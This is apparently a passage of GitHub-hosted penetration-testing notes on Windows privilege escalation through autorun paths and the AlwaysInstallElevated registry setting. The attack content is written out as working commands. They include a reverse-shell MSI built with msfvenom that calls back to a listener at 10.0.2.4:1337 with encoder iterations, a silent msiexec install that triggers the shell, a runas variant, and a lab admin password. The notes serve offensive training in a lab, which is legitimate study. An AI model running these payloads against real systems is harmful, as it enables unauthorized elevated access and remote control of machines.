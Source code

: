 ![image](https://github.com/user-attachments/assets/9d38a137-2369-456b-aeac-99ef3b93ffd4)

- Copy your reverse shell executable to the autorun executable path

- You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves


![image](https://github.com/user-attachments/assets/19321af4-8ba3-427d-afba-12c00530e99f)

### Using rdesktop to login to rdp

- Use `rdesktop -u [user] [ip]`
  

### Generating an msi payload with msfvenom

- Use:
  
      msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT=[port] -f msi -o saucy.msi

![image](https://github.com/user-attachments/assets/2de086ab-a240-46df-b9b9-55baa9f1bde7)

### Registry AllElevated Keys

-  AlwaysInstallElevated" is a Windows Registry setting that affects the behavior of the Windows Installer service. The vulnerability arises when the "AlwaysInstallElevated" registry key is configured with a value of "1" in the Windows Registry.
When this registry key is enabled, it allows non-administrator users to install software packages with elevated privileges. In other words, users who shouldn't have administrative rights can exploit this vulnerability to execute arbitrary code with elevated permissions, potentially compromising the security of the system.

- To check this, use query `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` to check if the value is set to `1` or `0x1`.

![image](https://github.com/user-attachments/assets/e659baaa-85d0-45cf-ae60-a123bd769fa6)

- Generate `msi` with msfvenow syntax below-:

```bash
msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.0.2.4 LPORT=1337 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi
```
- Copy the msi payload and install with msiexec to trigger a reverse shelll

      msiexec /quiet /qn /i [msi's path]

- Shell

![image](https://github.com/user-attachments/assets/d8b07ea9-8e38-4e1f-a47f-4e2fb3497097)

- Sometimes you have to use the runas command to execute the file-: e.g Runas syntax-:

```cmd
runas /
user:dev-datasci-lowpriv "msiexec /quiet /qn /i C:\Users\dev-datasci-low
priv\priest.msi"
```
